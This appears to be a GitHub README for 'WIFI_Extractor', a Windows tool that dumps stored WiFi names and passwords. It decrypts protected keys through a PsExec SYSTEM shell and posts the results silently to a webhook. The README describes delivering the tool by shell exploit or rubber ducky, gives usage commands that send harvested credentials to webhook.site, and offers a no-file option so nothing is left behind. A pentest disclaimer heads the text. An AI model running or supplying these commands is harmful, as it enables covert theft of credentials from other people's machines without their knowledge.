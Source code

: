 # WIFI_Extractor

*DISCLAIMER*

This is not made for illegal or malicious purposes, I consider it like a post-exploitation tool with legal authority before of use in whatever location you are doing your pentest to check weak and reutilization of passwords, I'm not responsible of any malicious acts that you may do.

Esto no está hecho con fines ilegales o maliciosos, lo considero como una herramienta de post-explotación con autoridad legal antes del uso en cualquier lugar donde esté haciendo su pentest para verificar la debilidad y la reutilización de contraseñas, no soy responsable de cualquier acto malicioso que puedas hacer.

if you run it with python you might need this requeriments

Si lo ejecutas con python tal vez podrias necesitar estos requerimientos


pip install click

pip install elementpath

pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used "offline", physically (rubber ducky).
It can detect protected local passwords and try to decrypt it, you must need at least a cmd with admin privileges to be more successful, then with the help of PsExec it will try to open a system shell and execute wdecryptor with the key


Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
También se puede usar "offline", físicamente con un pendrive(rubber ducky).
Puede detecar contraseñas protegidas localmente y tratar de descriptarlas, necesitaras al menos una cmd con privilegios de admin para tener mas probabilidad de éxito, luego con la ayuda de PsExec tratará de ejecutar wdecryptor con la key.


Usage: E_WIFI.exe [OPTIONS]


Options:

  -u, --url TEXT      Webhook/POST URL
  
  -n, --no-txt        No crea el archivo txt | Doesn't create the txt file
  
  -v, --version       Imprime la version | Prints the version
  
  -p, --print-output  Muestra la salida en la terminal | Shows the output in
                      the terminal
                      
  -a, --admin         Indica si la consola actual tiene privilegios de admin |
                      Indicates if the current console has admin privileges
                      
  --help              Show this message and exit.
  
  

Offline

python3 E_WIFIoffline.py


CMD or Powershell E_WIFIoffline.exe | ./E_WIFIoffline.exe (You can also double click it)

Creates a txt with the WIFI's ssid and passwords stored in the local machine

Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Online

Usages

default usage

python3 E_WIFI.py


CMD or Powershell E_WIFI.exe | ./E_WIFI.exe

Creates a txt with the WIFI's ssid and passwords stored in the local machine

Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Another Example

python3 E_WIFI.py -u https://webhook.site/yoururl -n -p 

CMD or Powershell E_WIFI.exe | ./E_WIFI.exe -u https://webhook.site/yoururl -n -p

type --help for more detailed info

PD: 
    THE TXT IS CREATED BY DEFAULT -n TURN IT OFF

    EL TXT SE CREA POR DEFECTO -n APAGA LA CREACION

V1.3 Examples

Quick Example of the new function (in the following hours I will update a more detailed one)

Ejemplo rapido de la nueva funcion (en las siguientes horas actualizare con unos ejemplos mas detallados)

E_WIFI.exe -p -a -u https://webhooksite...
![ejemplo nueva funcion](https://user-images.githubusercontent.com/74321905/225491588-1b1c1de4-0fa2-4981-8aa7-317983d13d6a.png)

"-a" will answer automatically with "Y" because it indicates that the current console is with admin privileges at least if you don't put this option you will need to put manually the option

"-a" respondera automaticamente con "Y" porque indica que la consola actual tiene al menos privilegios de administrador, si no pones esta opcion tendras que responder manualmente

You will see that in the webhook it will be sent with the decrypted password

Podras ver en el webhook que sera enviado con la contrasena desencriptada
![ejemplo nueva funcion2](https://user-images.githubusercontent.com/74321905/225492226-b03d05e1-4f79-4f88-b872-04df838bc34d.png)


Also you can use the E_WIFI to extract the keys and then manually use Wdecryptor with an opened system authority cmd

Tambien podras usar E_WIFI para extraer las keys y luego manualmente usar wdecryptor con una cmd abierta con system authority

![ejemplo nueva funcion3](https://user-images.githubusercontent.com/74321905/225493385-921a6a0f-230c-4a2f-a83c-fa020282db92.png)

it will be saved in a "decrypted.txt" file also with the following format "Encrypted Key : Decrypted"

tambien se guardara en un archivo "decrypted.txt" con el siguiente formato "Key Encriptada : Descriptada"
